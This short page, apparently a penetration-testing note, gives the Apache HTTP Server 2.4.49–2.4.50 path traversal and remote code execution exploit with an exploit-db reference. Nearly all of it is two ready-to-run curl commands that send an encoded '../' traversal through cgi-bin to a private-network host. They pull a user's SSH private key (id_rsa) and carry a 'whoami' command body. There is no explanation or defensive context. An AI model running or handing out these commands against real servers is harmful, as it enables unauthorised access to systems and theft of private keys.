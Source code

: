 # Apache HTTP Server 2.4.49 - 2.4.50 - Path Traversal & Remote Code Execution (RCE)

https://www.exploit-db.com/exploits/50512

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/id_rsa"
```

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa"
```

